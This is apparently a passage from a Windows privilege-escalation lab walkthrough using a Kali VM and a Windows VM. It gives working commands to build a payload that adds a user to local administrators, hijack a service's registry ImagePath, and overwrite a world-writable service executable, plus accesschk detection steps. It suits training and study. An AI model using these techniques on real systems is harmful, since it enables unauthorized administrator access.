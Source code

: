 Kali VM

* Open windows\_service.c in a text editor and replace the command used by the `system()` function to: `cmd.exe /k net localgroup administrators user /add`
* Exit the text editor and compile the file by typing the following in the command prompt:

```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

* (NOTE: if this is not installed, use `sudo apt install gcc-mingw-w64`)
* Copy the generated file `x.exe`, to the Windows VM.

Windows VM

* Place `x.exe` in `C:\Temp`.
* Open command prompt at type:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```

* In the command prompt type: `sc start regsvc`
* It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt:

```
net localgroup administrators
```

### Service Escalation Executable Files

* Detection
* Windows VM
* Open command prompt and type:

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```

* Notice that the `Everyone` user group has `FILE_ALL_ACCESS` permission on the filepermservice.exe file.
* Exploitation
* Windows VM
* Open command prompt and type:

```
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

* In command prompt type: `sc start filepermsvc`
* It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

### Startup Applications

* Detection
* Windows VM
* Open command prompt and type: icacls.exe

